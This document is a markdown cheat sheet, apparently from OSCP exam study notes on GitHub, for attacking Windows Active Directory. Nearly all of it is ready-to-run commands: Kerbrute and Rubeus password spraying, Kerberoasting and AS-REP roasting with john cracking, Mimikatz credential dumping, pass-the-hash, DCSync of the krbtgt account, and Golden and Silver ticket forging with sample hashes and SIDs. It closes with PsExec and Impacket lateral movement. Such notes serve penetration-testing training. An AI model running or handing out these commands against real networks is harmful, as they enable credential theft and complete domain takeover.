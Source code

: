   - [Crackmap](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#crackmap)
  - [Kerbrute](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#kerbrute)
  - [Rubeus](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#rubeus)
  - [Roasting](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#roasting)
  - [Mimikatz](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#mimikatz)
  - [Lateral Movement](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#lateral-movement)

More - https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a


# Crackmap

```crackmapexec <service> [hostname/ip]```

```crackmapexec smb 10.10.10.175```

# Kerbrute

```./kerbrute_linux_amd64 userenum -d $DOMAIN -dc $DOMAIN_CONTROLLER usernames.txt```

```./kerbrute_linux_amd64 -domain $DOMAIN -users usernames.txt -passwords passwords.txt -outputfile Output_File```

# Rubeus
https://www.hackingarticles.in/a-detailed-guide-on-rubeus/

Brute Password spray:

```Rubeus.exe brute /password:Password01 /noticket```

Get tickets on System:

```Rubeus.exe harvest /interval:30```

Request ticket (TGT) based on username and password/hash:

```Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt```

# Roasting
https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/

https://www.hackingarticles.in/as-rep-roasting/

```Rubeus.exe kerberoast /nowrap```

```Rubeus.exe asreproast /nowrap```

- ```/format:[hashcat | john]> /outfile:Hashes.txt```

```john hash.txt```

```john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt```

- ```--format=krb5tgs```


# Mimikatz
https://adsecurity.org/?page_id=1821

#### Turn an NTLM into a TGT (OverPass-the-Hash / Pass-the-Key):

```
mimikatz#> 
privilege::debug
sekurlsa::logonpasswords
```

```sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe```

OR

```Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt```

```
Klist
Net use //dc1
Klist
```

PSEXEC to DC - 
```.\PsExec.exe \\dc01 cmd.exe```

* * * 

#### DCSync Attack:
```lsadump::dcsync /user:Administrator```
```lsadump::dcsync /user:domain\krbtgt```


#### Golden:
Jump to DC to dump krbtgt hash:

```psexec.exe \\dc01 cmd.exe```

```
Privilege::debug
lsadump::lsa /patch
```

Now we can create a Golden Ticket:
```Kerberos::purge```

```
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
```

Prove we have DA permissions:
```
misc::cmd
psexec.exe \\dc01 cmd.exe
```

#### Silver:

Get domain SID  - ```Whoami /user```

```kerberos::list```

```
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```

#### MAINTENANCE
```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::list
```

#### Invoke Mimikatz

```Invoke Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'```

```Invoke Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'```

# Lateral Movement
```PsExec.exe -accepteula \\$HOSTNAME cmd```

```psexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```smbexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```wmiexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```rdesktop -d domain -u user -p password01 -r disk:local_folder=/path/to/shared_folder <hostname/IP> ```
